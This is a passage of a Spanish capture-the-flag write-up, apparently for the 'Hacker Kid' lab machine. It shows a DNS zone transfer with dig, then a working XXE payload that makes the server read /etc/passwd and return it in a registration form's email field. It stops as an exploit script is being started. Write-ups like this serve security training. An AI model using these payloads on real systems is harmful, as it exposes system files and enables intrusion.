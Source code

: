 - Nos filtra un `dominio` nuevo, los añadimos (tanto el dominio como el subdominio) al "/etc/hosts" y accedemos.

- Al acceder al dominio vemos el mismo contenido de la página inicial, sin embargo lo podemos usar para aprovecharnos que el puerto 53 está abierto y hacer un `ataque de transferencia de zona` y encontrar subdominios desconocidos hasta el momento:

```bash
$dig axfr @192.168.0.106 blackhat.local
```

```js
<<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr @192.168.0.106 blackhat.local
; (1 server found)
;; global options: +cmd
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.		10800	IN	NS	ns1.blackhat.local.
```


- Encontramos un nuevo `subdominio`, lo añadimos al "/etc/hosts" y accdemos.

<br><br>
# Ataque XXE (XML External Entity) + Python Scripting:

- Vemos una página de registro, si llenamos con datos aleatorios y hacer click en el botón "register" podemos observar que en el output se nos muestra lo que escribimos en el campo de `"email"`, esto nos hace pensar en varios ataques, pero para confirmar interceptaremos la petición que se hace al registrar los datos con Burpsuite.

- Mandamos la petición al repeater y podemos observar en la data una estructura `XML`, lo que nos confirma un posible `XXE`, así que procedemos a inyectar los comandos para crear una entidad XML que lea el archivo "/etc/passwd" el cual vamos a mostrar en el campo de "email", quedando la estructura de la siguiente forma:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd" > ]>
<root>
	<name>test</name>
	<tel>test</tel>
	<email>&xxe;</email>
	<password>test</password>
</root>
```

- Al enviar la petición podemos ver como efectivamente se nos muestra el contenido del "/etc/passwd" de la máquina; con esto ya podríamos hacer una búsqueda de ficheros locales del sistema para encontrar posible información que nos sea útil, sin embargo para agilizar este proceso y hacerlo más cómodo desde la terminal, nos crearemos una script en `python`:

```bash
$nano exploitXXE.py
```
